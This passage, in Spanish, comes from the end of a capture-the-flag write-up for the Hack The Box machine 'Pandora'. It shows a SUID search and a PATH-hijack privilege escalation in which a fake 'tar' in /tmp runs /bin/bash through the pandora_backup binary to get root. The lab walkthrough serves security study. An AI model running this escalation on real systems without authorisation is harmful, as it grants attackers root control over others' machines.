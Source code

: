 ```bash
find / -perm -4000 2>/dev/null
```

Vemos `/usr/bin/pandora_backup`. Podemos ver qué intenta hacer con ltrace y notaremos que system llama a tar sin una ruta completa.

`pandora_backup` tiene permiso ejecutable otorgado al usuario matt. Este binario se puede utilizar en la escalada de privilegios o Path Hijacking, si los comandos de Linux utilizados dentro de este binario no se utilizan con su ruta absoluta. Comprobemos si está utilizando algún comando de Linux sin su ruta absoluta.

```bash
cat /usr/bin/pandora_backup 
```

![Backup Binary](/secciones/posts/imagenes/pandora/backup1.png)

Se puede apreciar que está usando el binario `tar` para comprimir el archivo. Podemos usarlo para tener nuestra escalada a root. Pondremos una shell en la ruta de tar:

```bash
matt@pandora:~$ echo "/bin/bash" > /tmp/tar
matt@pandora:~$ chmod +x /tmp/tar
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ export PATH=/tmp:$PATH
matt@pandora:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ /usr/bin/pandora_backup
```

Con esto ya seríamos root, así que buscamos la flag y terminamos.

---

**Nota:** Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes, esto debido a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También si encuentra faltas de ortografía o cualquier error, puedes contactarme a mi correo.